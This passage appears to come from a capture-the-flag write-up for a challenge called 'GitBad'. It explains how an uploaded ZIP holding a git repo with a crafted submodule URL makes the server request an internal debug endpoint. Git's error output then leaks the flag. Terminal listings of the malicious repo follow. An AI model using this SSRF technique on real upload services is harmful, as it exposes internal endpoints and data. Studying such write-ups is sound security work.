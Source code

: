 
2. **Upload** the ZIP to `/api/upload`.  
`process_git_repo()` extracts it and calls _Git_.

3. **Git** tries to clone the submodule; that causes an **HTTP GET** to

```
http://127.0.0.1:5000/api/search?debug=true&filter=...

```

4. Flask returns JSON containing the flag; Git can’t parse it as a repo  
and fails, but the response (or at least the requested URL) lands on  
**stderr**.

5. `run_git_submodule_update()` captures stderr and puts it straight into  
the JSON response of `/api/upload`, so the attacker sees the flag.

----

We can Build this malicious `repo` and see how it will work.  

```js
┌──(twilight㉿xtromera)-[~/…/GitBad/new/solution/gitbad-ssrf]
└─$ ls -la
total 20
drwxrwxr-x 3 twilight twilight 4096 Jul 15 14:31 .
drwxrwxr-x 3 twilight twilight 4096 Jul 15 14:31 ..
drwxrwxr-x 8 twilight twilight 4096 Jul 13 21:07 .git
-rw-r--r-- 1 twilight twilight  445 Jul 13 20:55 .gitmodules
-rw-r--r-- 1 twilight twilight    2 Jul 13 16:28 README

┌──(twilight㉿xtromera)-[~/…/GitBad/new/solution/gitbad-ssrf]
└─$ tree .git
.git
├── COMMIT_EDITMSG
├── config
├── description
├── HEAD
├── hooks
│   ├── applypatch-msg.sample
│   ├── commit-msg.sample
│   ├── fsmonitor-watchman.sample
│   ├── post-update.sample
│   ├── pre-applypatch.sample
│   ├── pre-commit.sample
│   ├── pre-merge-commit.sample
│   ├── prepare-commit-msg.sample
│   ├── pre-push.sample
│   ├── pre-rebase.sample
│   ├── pre-receive.sample
│   ├── push-to-checkout.sample
│   ├── sendemail-validate.sample
│   └── update.sample
├── index
├── info
│   └── exclude
├── logs
│   ├── HEAD
│   └── refs
│       └── heads
│           └── master
├── modules
├── objects
│   ├── 17
│   │   └── eabdb0921286c7eeb9a52b4e3449729c1afe7f
│   ├── 31
│   │   └── a27c1ea04d31069697ef9168e2085867946ce3
```